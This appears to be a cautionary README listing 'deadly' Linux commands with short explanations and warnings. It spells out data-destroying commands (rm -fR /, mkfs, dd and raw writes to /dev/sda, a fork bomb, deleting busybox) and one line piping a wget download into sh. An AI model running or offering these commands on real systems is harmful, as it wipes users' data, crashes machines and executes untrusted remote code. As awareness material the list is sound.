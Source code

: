 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

Some of these commands need administration rights (e.g. sudo ...) to be executed, some Linux distributions enforce specific protection mechanisms. So it is not so simple to destroy your Linux machine, but pay attention in any case. 

## Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### Wipeout!

`rm -fR /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### No More Busy

`find / -name busybox -exec rm -f {} \;`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
